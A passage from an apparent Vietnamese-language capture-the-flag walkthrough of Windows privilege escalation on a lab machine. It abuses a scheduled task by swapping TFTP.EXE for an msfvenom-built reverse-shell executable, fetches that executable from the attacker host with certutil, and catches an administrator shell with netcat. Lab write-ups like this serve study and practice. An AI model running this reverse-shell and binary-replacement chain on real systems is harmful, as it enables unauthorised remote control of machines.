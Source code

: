 ```
```

Theo file text này, `TFTP.EXE` được chạy mỗi năm phút. Mặc dù không biết chắc điều này có đúng không, nhưng đáng để điều tra vì file thực thi có khả năng được chạy như một tác vụ quản trị.

### Swapping the Executable

Thử thay thế `TFTP.EXE` bằng một file thực thi độc hại. Đầu tiên, tạo payload.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=3306 -f exe > evil.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Trong user shell, tận dụng máy chủ web python đang chạy để tải dữ liệu xuống target.

```
C:\Backup>certutil.exe -urlcache -split -f "http://192.168.49.68/evil.exe" "C:\Backup\evil.exe"
certutil.exe -urlcache -split -f "http://192.168.49.68/evil.exe" "C:\Backup\evil.exe"
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```

Sao lưu file `TFTP.EXE` gốc...

```
C:\Backup>move TFTP.EXE TFTP.EXE_BKP
move TFTP.EXE TFTP.EXE_BKP
        1 file(s) moved.
```

...và thay thế `TFTP.EXE` bằng file mới.

```
C:\Backup>move evil.exe TFTP.EXE
move evil.exe TFTP.EXE
        1 file(s) moved.
```

Cuối cùng, khởi động trình lắng nghe netcat trên cổng 3306 và đợi tối đa 5 phút để hoạt động.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvvvp 3306                                                              
listening on [any] 3306 ...
192.168.68.53: inverse host lookup failed: Host name lookup failure
connect to [192.168.49.68] from (UNKNOWN) [192.168.68.53] 49729
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
slort\administrator
```

Sau một thời gian, nhận được một shell trong trình lắng nghe và phát hiện ra rằng giả định là đúng: file được thực thi với tư cách là Administrator. Có một admin shell!